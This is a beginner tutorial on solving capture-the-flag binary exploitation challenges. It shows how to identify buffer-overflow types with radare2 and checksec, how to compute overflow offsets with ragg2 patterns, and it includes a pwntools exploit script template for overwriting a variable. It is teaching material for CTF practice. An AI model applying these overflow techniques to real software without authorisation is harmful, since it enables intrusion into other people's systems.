 # pwning basics

This tutorial is for non-pwners who need to solve a pwn challenge
because they've found themselves without one. It's also a good
jumping off point for people who want to learn how to pwn but have
no idea. I'm going to assume a few essentials are installed on your
system:

  - [pwntools](https://github.com/Gallopsled/pwntools#installation)
    (python package)
  - [radare2](https://github.com/radare/radare2#install)
    (the best tool)
  - [gdb](https://www.gnu.org/software/gdb/download/)

## identifying the challenge type

The very first thing you should do is identify the type of challenge
you're dealing with. There are a lot of different types, but if you're
dealing with a CTF challenge, the simplest pwn challenges are almost
always buffer overflows. There are a few different types of exploits
that buffer overflows allow:

  - changing variable values (easiest)
  - shellcode injection (medium)
  - return oriented programming (harder)
  - return to libc attacks (rather difficult)

From easiest to hardest, here is how to identify them:

### variable altercation

You open the binary in radare2 and inspect the binary:

```
$ r2 -A <binary_name>
[0x80049202]> s main
[0x80048000]> Vpp
```

Now you can see the assembly of the main function. Use `<j,k>` to scroll
up and down. You see something that looks like this:

```
mov eax, 0xdeadbeef
cmp eax, [local_18h]
jne 0x80049999
call sym.print_flag
```
That's pretty standard. You need the variable called [local_18h] to
have the value `0xdeadbeef` in order to go to the `print_flag` function.

### shellcode injection

You have the binary, but it doesn't look as obvious how to exploit it.
You run checksec:

```
$ checksec pwn3
[*] '/home/crclark/ctf/tamuctf/pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

You see the line that says `NX disabled`. This means the stack is marked
as executable. Classic shellcode.

For more investigation, you give it
a huge string anytime it asks you for input (think >500 bytes). It
segfaults. Unlike in software engineering, we really really like
segfaults.

### return oriented programming

You investigate the binary for obvious signs of shellcode or variable
manipulation, but there are none.

You open the binary in radare2:

```
r2 -A <binary>
[0x08048450]> ii
[Imports]
Num  Vaddr       Bind      Type Name
   1 0x080483c0  GLOBAL    FUNC printf
   2 0x080483d0  GLOBAL    FUNC gets
   3 0x080483e0  GLOBAL    FUNC puts
   4 0x080483f0  GLOBAL    FUNC system
   5 0x00000000    WEAK  NOTYPE __gmon_start__
   6 0x08048400  GLOBAL    FUNC strchr
   7 0x08048410  GLOBAL    FUNC __libc_start_main
   8 0x08048420  GLOBAL    FUNC setvbuf
   9 0x08048430  GLOBAL    FUNC snprintf
  10 0x00000000  GLOBAL     OBJ stdout
```

You see the line that says `system`. This means the binary uses
the system function, which we can (hopefully) exploit.


## exploits

Now we get to the goods. Learn this command:

```
ragg2 -P 512 -r
```

This will give you a string of length 512 that is non-repeating
(a debruijn sequence) that you can use to calculate exactly how much
padding you need before your payload. This is critical for all exploits
because exploiting is the art of putting things very precisely in the
right (or wrong) places to get the binary to do what you want instead
of what the author wanted.

You can use `ragg2 -q 0x41414241` or whatever your sequence is
to have it tell you exactly where that sequence lives within the
entire payload. Notice that in this case you're giving it the hex
equivalent of what it gave you. This is because most of the time
your debugger or disassembler will show you these values in hex. This
also means that endianness will sometimes mess up the offsets, so
sometimes you need to tweak these values by a few bytes either up or
down.

The other important thing is scripting your exploit. Here are two
files you'll want to have on hand while developing exploits:

prof.rr2:
```
#!/usr/bin/rarun2

stdin=in.bin
```

exploit.py:
```
from pwn import *

context.log_level = 'debug'

offset = <number>
target = p32(<hex value>)
payload = offset*'a' + target

with open('in.bin','w') as f:
  f.write(payload)

r = process(<binary>)

r.recvuntil(<string>)

r.sendline(payload)

r.recv()
```

Keep these forever.

### variable manipulation

Step 1: Calculate how much padding you need

Run the binary in the debugger (preferably radare2)

```
r2 -Ad <binary>
```

Set a breakpoint at the comparison (looks like `cmp eax, [local_8h]`):

```
[0x08048450]> db <addr>
```

Run the binary:
```
[0x08048450]> dc
```

When it asks for input, paste in the big ol' string from that `ragg2`
command from earlier. (`ragg2 -P 512 -r`).

Inspect the value of the variable:
```
[0x08048450]> afvd
```
Pro-tip: if you're in visual mode (the one with all of the assembly),
type `:` to enter these commands, or `q` to go back to command mode.

Look for the value of `[local_8h]` (or whatever variable you're
manipulating). If it looks like `0x41414241` or some repetitive value,
copy that hex and feed it back to `ragg2`. (There's a way to do this
in radare2 as well: `wopO <hex>`).

That is your offset. Copy it into `exploit.py` as the value of `offset`.
Now add the target value to the `target` variable and try it out.

If you get something like `no such file or directory: flag.txt`, you've
done it! Create a file named `flag.txt` with some contents and see if
running the script prints it out.

If not, don't worry. Open the binary again, but this time with some
new flags:
```
r2 -r prof.rr2 -Ad <binary>
```

This will load your payload as the stdin of the program.

Follow the previous steps to see what the value of the variable is
now, with your payload. Check that your offset value is correct, and
tweak until satisfied.




